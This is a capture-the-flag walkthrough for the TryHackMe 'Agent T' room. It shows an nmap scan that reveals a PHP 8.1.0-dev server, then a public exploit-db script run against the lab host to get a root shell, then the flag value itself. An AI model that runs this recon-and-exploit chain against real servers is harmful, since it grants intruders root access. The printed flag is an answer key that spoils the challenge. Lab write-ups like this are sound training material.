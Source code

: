 # Agent T Walkthrough
### Link
- https://tryhackme.com/room/agentt
---
### Recon
```
sudo nmap -sV -sC [IP]
```
**Namp scan result**
```
Host is up (0.39s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
```

Now we can try to access it through http --> http://[IP]

We have an access to a **admin** dashboard. After navigating from this page, we can notice that we cannot access others features.

One important information we caught from the **nmap scan** is the version of the Php 
```
PHP cli server 5.5 or later (PHP 8.1.0-dev)
```
### Find an exploit

We can check **exploitdb** and we are lucky beacause we have this [exploitdb](https://www.exploit-db.com/exploits/49933)

### Use the exploit

```
python3 49933.py 
Enter the full host url:
http://10.10.78.93/

Interactive shell is opened on http://10.10.78.93/ 
Can't acces tty; job crontol turned off.
$ id
uid=0(root) gid=0(root) groups=0(root)

```

### Find  the flag

```
$ ls /
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

$ cat /flag.txt 
flag{4127d0530abf16d6d23973e3df8dbecb}
```

**Question**
#### What is the flag?
**Answer** 
#### flag{4127d0530abf16d6d23973e3df8dbecb}
